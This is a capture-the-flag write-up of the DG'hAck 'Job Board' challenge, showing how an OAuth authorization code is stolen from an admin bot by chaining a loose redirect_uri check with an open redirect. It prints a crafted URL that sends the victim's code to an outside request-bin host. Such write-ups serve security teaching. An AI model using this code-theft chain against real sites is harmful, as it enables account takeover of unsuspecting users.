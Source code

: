 ```yaml
---
title: "Writeup DG'hAck: Job Board"
date: 2020-11-30T17:45:33+01:00
draft: false
tags: ["blog", "security", "ctf", "dghack"]
type: "posts"
showDate: true
---
```


This challenge starts with a website that presents a list of jobs (once connected). Our goal is to login as an administrator. Here is the landing page:

[![The dashboard](/assets/dghack/job-board-landing.png)](/assets/dghack/job-board-landing.png)

Right of the bat, we see a login link, and a contact link. The contact page seems interesting, and after toying around with some XSS payloads, we quickly find that a bot clicks on any link that is passed as a message.

Clicking the login button prompts us for a username and password; the `test/test` combination works. We're greeted with a list of jobs:

[![The available jobs](/assets/dghack/job-board-positions.png)](/assets/dghack/job-board-positions.png)

Now the authentication system looks like OAuth, which is quite complicated. Let's look at the URLs called when logging in:

- POST `http://jobboard2.chall.malicecyber.com/oauth/authorize`, with the params:
  ```
  client_id=svvhKlyEA7qODbl16JTUPQNz
  response_type=code
  redirect_uri=http://jobboard2.chall.malicecyber.com/connect/auth/callback
  scope=profile
  ```
- GET `http://jobboard2.chall.malicecyber.com/connect/auth/callback`, with the single param `code=FOOdZjenThSgRBOBmbP2jB2TOzxb79xNNbFyi24h3I1DPuD5`
- GET `http://jobboard2.chall.malicecyber.com/login`, with the params:
  ```
  access_token=BlhXQy0AbcoocRXTmWUTpXCyNFKLnrYgZoF2eIW9Id
  raw[access_token]=BlhXQy0AbcoocRXTmWUTpXCyNFKLnrYgZoF2eIW9Id
  raw[expires_in]=864000
  raw[scope]=profile
  raw[token_type]=Bearer
  ```

The first URL (the login form) redirects to the second, and the second to the third.

If we assume that the bot will sign in when presented with the login form, the `redirect_uri` parameter gets really interesting. We could just change it to a URI on our server, and get a code allowing us to login with the account that the bot uses.

Replacing the URI with a custom one yields the following error:

```
invalid_request: Invalid "redirect_uri" in request.
```

However, we seem to be able to change the path, eg:

```
http://jobboard2.chall.malicecyber.com/REDIRECT
```

So if we find an open redirect on the server, we can get the code. Looking more closely at the list of jobs, we find that clicking on one redirects to:

```
http://jobboard2.chall.malicecyber.com/safelink/http%3A%2F%2Fexample.com%2F
```

After creating a [request bin](https://requestbin.com/), we can replace the example domain:

```
http://jobboard2.chall.malicecyber.com/safelink/https%3A%2F%2Fen43o9xcx03qo.x.pipedream.net
```

Opening that link seems to work! We have everything we need now, let's craft our malicious URL:

```
http://jobboard2.chall.malicecyber.com/oauth/authorize?client_id=svvhKlyEA7qODbl16JTUPQNz&response_type=code&redirect_uri=http%3A%2F%2Fjobboard2.chall.malicecyber.com%2Fsafelink%2Fhttps%253A%252F%252Fen43o9xcx03qo.x.pipedream.net&scope=profile
```

And send it to the bot. After a few seconds, we see:

```
/?code=qAV9LcN3T2vb8Fjycx6pqGZBIPyLs0nCqphbLqohi9929iq5
```

Great! Now we just have to open `https://jobboard2.chall.malicecyber.com/connect/auth/callback?code=qAV9LcN3T2vb8Fjycx6pqGZBIPyLs0nCqphbLqohi9929iq5` in our browser, and we're logged in!

We see:

[![The secret job](/assets/dghack/job-board-flag.png)](/assets/dghack/job-board-flag.png)

The flag is `DontRollYourOwn`.

---

[View all of the DG'hAck articles](/tags/dghack).
